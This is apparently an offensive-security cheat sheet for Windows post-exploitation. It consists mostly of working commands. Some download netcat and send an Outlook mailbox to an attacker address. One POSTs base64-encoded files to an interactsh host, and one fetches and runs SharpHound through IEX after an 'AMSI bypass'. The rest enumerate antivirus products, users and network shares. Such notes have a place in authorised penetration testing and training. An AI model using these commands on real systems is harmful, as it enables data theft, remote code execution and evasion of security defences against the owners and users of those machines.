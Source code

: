 # Exfiltrate and find data and info
On victim/client:

In powershell shell (powershell has the wget command):
```cmd
wget https://github.com/int0x33/nc.exe/raw/master/nc.exe -Outfile nc.exe
cmd /c 'nc.exe -w 3 <yourIP> 80 < Outlook.pst'
```

On receiving server:

```bash
nc -l -p 80 > Outlook.pst
```


Or via HTTP requests:

file/pdf extraction:
```powershell
$File = "file.pdf"
$uri = "ID.interactsh.com" # change the ID 
$pdf = Get-Content $File -Encoding Byte; 
$base64 =[Convert]::ToBase64String($pdf)
Invoke-WebRequest -uri $uri -Method Post -Body $base64
```

Use https://base64.guru/converter/decode/file#download-preview-file to get the file from the base64 content

bloodhound:
```powershell
# FIRST run AMSI bypass! 
$url = "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1"
IEX([Net.Webclient]::new().DownloadString($url))
mkdir "$Env:PUBLIC\bloodhound"
Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default  -OutputDirectory "$Env:PUBLIC\bloodhound"
# use file/pdf extraction to get the zip file. 
```

View AV used:
```powershell
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List #Powershell
```

View information about current user:
```powershell
whoami
net user <name_user_whoami_without_domain> /domain
hostname
```

Show mounted shares:
```
Get-WmiObject Win32_NetworkConnection | ft "LocalName","RemoteName" -A #powershell
net use # cmd
```

